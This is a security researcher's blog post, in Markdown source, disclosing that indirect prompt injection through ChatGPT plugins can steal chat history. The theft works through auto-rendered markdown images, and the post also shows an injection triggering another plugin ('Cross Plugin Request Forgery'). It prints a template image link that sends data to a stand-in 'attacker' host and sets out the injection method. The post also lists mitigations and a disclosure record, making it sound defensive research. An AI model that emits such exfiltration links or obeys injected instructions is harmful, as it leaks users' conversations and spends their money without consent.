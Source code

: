 ```yaml
---
title: "ChatGPT Plugins: Data Exfiltration via Images & Cross Plugin Request Forgery"
date: 2023-05-16T07:45:38-07:00
tags: [
     "aiml", "machine learning","red", "threats", "ai injections","chatgpt"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "ChatGPT: Data Exfiltration via Plugins and Markdown Injection"
  description: "Plugins can return malicious content and hijack your AI."
  image: "https://embracethered.com/blog/images/2023/hacker-white.jpg"
---
```


This post shows how a malicious website can take control of a ChatGPT chat session and exfiltrate the history of the conversation.

## Plugins, Tools and Integrations

With plugins, data exfiltration can happen by sending too much data into the plugin in the first place. More security controls and insights on what is being sent to the plugin are required to empower users.

**However, this post is not about sending too much data to a plugin, but about a malicious actor who controls the data a plugin retrieves**.

### Untrusted Data and Markdown Injection

The individual controlling the data a plugin retrieves can exfiltrate chat history due to ChatGPT's rendering of markdown images. 

Basically, if the LLM returns a markdown image in the form of

```
![data exfiltration in progress](https://attacker/q=*exfil_data*)
```

ChatGPT will render it automatically and retrieve the URL. During an Indirect Prompt Injection the adversary controls what the LLM is doing (I call it AI Injection for a reason), and it can ask to summarize the past history of the chat and append it to the URL to exfiltrate the data.

I'm not the only one who points this out, [Roman Samoilenko has observed and posted about this vulnerability in ChatGPT before](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2). Roman found it end of March, and I ran across it independently a few days later in early April.

### Proof of Concept Demonstration

This is possible with plugins, e.g. via the `WebPilot Plugin` or check out the [YouTube Transcript Plugin Injection](/blog/posts/2023/chatgpt-plugin-youtube-indirect-prompt-injection/) I posted about the other day. 

The LLM's response can contain markdown (or instruct the AI to build it on the fly), summarize the past conversation, URL encode that summary and append that as query parameter. And off it goes to the attacker.

Here is how this looks in action:

[![Data exfiltration in progress](/blog/images/2023/ai-exfil-progress.png)](/blog/images/2023/ai-exfil-progress.png)

The text that is being exfiltrated including "TooManySecrets123" is something that was written earlier in the chat conversation.

And here is an end to end video POC:

{{< youtube PIY5ZVktiGs >}}


Feel free to skip forward in the middle section - it's a bit slow. 

But wait, there is more....

### Can an attacker call another Plugin during the injection?

**Short answer is yes.** 

**This is an interesting variant of `Cross Site Request Forgery` actually, but we will need a new name for it, maybe `Cross Plugin Request Forgery`.**

Here is an example of an Indirect Prompt Injection calling another plugin (Expedia) to look for flights:

[![AI Injections searches for flights](/blog/images/2023/ai-injection-call-plugin.png)](/blog/images/2023/ai-injection-call-plugin.png)

Yes, random webpages and comments on sites will soon hijack your AI and spend your money.

## Mitigations and Suggestions

Safe AI assistants would be really awesome to have, the power of ChatGPT is amazing! So what could be done to improve the security posture? 

- Its unclear why plugins have access to the entire conversation context. This could be isolated. It would be better if plugins go off do their work, rather then giving it access to the entire conversation history, or allow invoking other plugins.
- A security contract for plugins is needed. Who is responsible for what? What data is sent to the plugin? Currently there is no defined or enforced schema that could help mitigate such problems. Open AI mentions **Human in the loop** as a [core safety best practice](https://platform.openai.com/docs/guides/safety-best-practices), but end-users have little to no control at the moment once they start using plugins.
- In fact the idea of having some sort of **kernel LLM** and other sandbox LLM is discussed by [Simon Willison, who has thought about this already in a lot more detail](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/).
- NVIDIA has been working on [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/) to help keep bots in check
- Scenarios like rendering images could be implemented as a dedicated feature, rather than depending on the convenience of markdown. (e.g. links being returned that are not injected into the chat context, but as references after the main message).
- Only use and point plugins to data you fully trust. 

A lot more research is needed, both from offensive and defensive side. And at this point, with the speed of adoption and new tools being released it seems that raising awareness to have more smart people look into this (and how to fix it) is the best we can do.

## Conclusion

With the advent of plugins Indirect Prompt Injections are now a reality within ChatGPT's ecosystem. As attacks evolve we will probably learn and see nefarious text and instructions on websites, blog posts, comments,.. to attempt to take control of your AI.

### Responsible Disclosure

I first disclosed the image markdown injection issue to Open AI on April, 9th 2023. 

After some back and forth, and highlighting that plugins will allow to exploit this remotely, I was informed that image markdown injection is a feature and that no changes are planned to mitigate this vulnerability.


## References

* [Roman Samoilenko - New prompt injection attack on ChatGPT web version. Markdown images can steal your chat data.](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2)
* [Open AI Safety Best Practices](https://platform.openai.com/docs/guides/safety-best-practices)
* [Dual LLM pattern](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/)
* [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/)
